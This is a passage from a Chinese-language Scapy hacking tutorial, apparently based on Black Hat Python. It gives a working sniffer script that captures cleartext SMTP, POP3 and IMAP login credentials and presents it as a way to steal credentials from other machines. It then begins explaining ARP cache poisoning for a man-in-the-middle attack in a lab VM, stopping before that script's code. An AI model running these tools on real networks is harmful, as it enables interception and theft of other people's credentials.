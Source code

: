```python
>>>> load_module('p0f')
>>>> sniff(prn=prnp0f)
```




-----------
## <a name="email"></a> 窃取明文邮件数据

这个脚本的想法是构建一个嗅探器来捕获[SMTP](http://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol)，[POP3](http://en.wikipedia.org/wiki/Post_Office_Protocol)，和[IMAP](http://en.wikipedia.org/wiki/Internet_Message_Access_Protocol)凭据。一旦我们将这个嗅探器和一些[MITM](http://en.wikipedia.org/wiki/Man-in-the-middle_attack)攻击(例如**ARP感染**)相结合，我们就可以从其他机器里面窃取凭据。

知道了这一点，我们编写了一个在所有接口上运行的，没有过滤器的嗅探器。**Sniff**的**store=0**属性确保数据包不保存在内存中（所以我们可以运行它）：

```python
from scapy.all import *
def packet_callback(packet):
    if packet[TCP].payload:
        mail_packet = str(packet[TCP].payload)
        if 'user' in mail_packet.lower() or 'pass' in mail_packet.lower():
            print '[*] Server: ' + packet[IP].dst
            print '[*] ' + packet[TCP].payload

sniff(filter="tcp port 110 or tcp port 25 or tcp port 143", prn=packet_callback, store=0)
```

当加载一些邮件客户端(比如[Thunderbird](https://www.mozilla.org/en-US/thunderbird/)）时运行这个脚本，我们可以看见登录信息(如果它们明文发送给服务器，就是有用的)。



-----------
## <a name="arp"></a> ARP缓存感染

我在Wireshark指南中谈到了[使用命令行arpspoof造成ARP缓存感染](http://bt3gl.github.io/wiresharking-for-fun-or-profit.html)。这里我们来看一下如何使用Scapy来实现同样的工具。

ARP缓存感染的主要机制就是向目标机器证明我们是网管，然后向网关证明所有的流量应该从我们的机器经过。

网络中的每一个机器都会有一个ARP缓存，用于存储最近的与本地网络上的IP地址匹配的MAC地址。我们需要做的就是用受控制的内容来“感染”这个缓存。

最好的测试方法就是使用一个Windows的虚拟机(看一下[我写的这个指南](http://bt3gl.github.io/setting-up-a-playing-environment-with-virtual-machines.html)).

在攻击之前，进入windows窗口，打开终端(```cmd```)，并使用```ipconfig```检查IP和网关IP地址。然后使用```arp -a```检查关联的ARP缓存条目的MAC地址：

![](http://i.imgur.com/ME069uS.png)

我们的ARP缓存感染脚本会按照如下步骤实现(基于[Black Hat Python](http://www.nostarch.com/blackhatpython))：

1. 定义常量，设置接口卡，然后关闭输出。

2. 解析网关和目标MAC地址。**get_mac**函数的**srp**方法向IP地址发出ARP请求来解析MAC地址。
